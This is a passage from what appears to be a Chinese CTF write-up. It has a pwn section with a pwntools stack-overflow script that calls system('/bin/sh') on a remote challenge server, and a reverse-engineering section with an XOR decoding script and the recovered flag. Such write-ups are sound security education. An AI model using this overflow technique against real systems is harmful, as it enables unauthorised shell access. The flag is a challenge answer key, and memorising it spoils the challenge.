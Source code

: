 ![](https://img-blog.csdnimg.cn/20200719193341909.png)
![](https://img-blog.csdnimg.cn/20200719193401535.png)

0x4-(-0x38)=60

payload如下：

```python
from pwn import *
#sh = process('./rop')
sh=remote('121.41.113.245',10003)
binsh_addr = 0x08049a20
system_plt = 0x080483D0
payload = flat(['a' * 60, system_plt, 'b' * 4, binsh_addr])
sh.sendline(payload)
sh.interactive()
```

这里我们需要注意函数调用栈的结构，如果是正常调用 system 函数，我们调用的时候会有一个对应的返回地址，这里以'bbbb' 作为虚假的地址，其后参数对应的参数内容。

![](https://img-blog.csdnimg.cn/20200719193621879.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NTg4MzIyMw==,size_16,color_FFFFFF,t_70)



## RE

### 0x00 . 不会有人看不懂c吧

​		顾名思义，这是和c相关的逆向，可以直接扔进ida分析程序

​		程序逻辑也一目了然，简单来说就是，将你的输入与num数组中存在的位置异或，然后放到该位置，最后与程序中存在的数据进行比较，全部一样，则判定为正确的flag。

​		所以逆向脚本也很简单

```python
a=[125,94,108,48,126,
    104,114,124,41,111,
    102,62,60,82,107,
    110,98,103,119,36,
    124,116,115,112,118,
    70,127,68,110]
b=[9,10,15,23,7,
    24,12,6,1,16,
    3,17,14,28,11,
    18,27,22,4,13,
    19,20,21,2,25,
    5,26,8,0]
c=''
for i in range(29):
	c+=chr(a[b[i]]^b[i])
print(c)

```

flag{n0t_r3ver5e_ez_7han_me!}
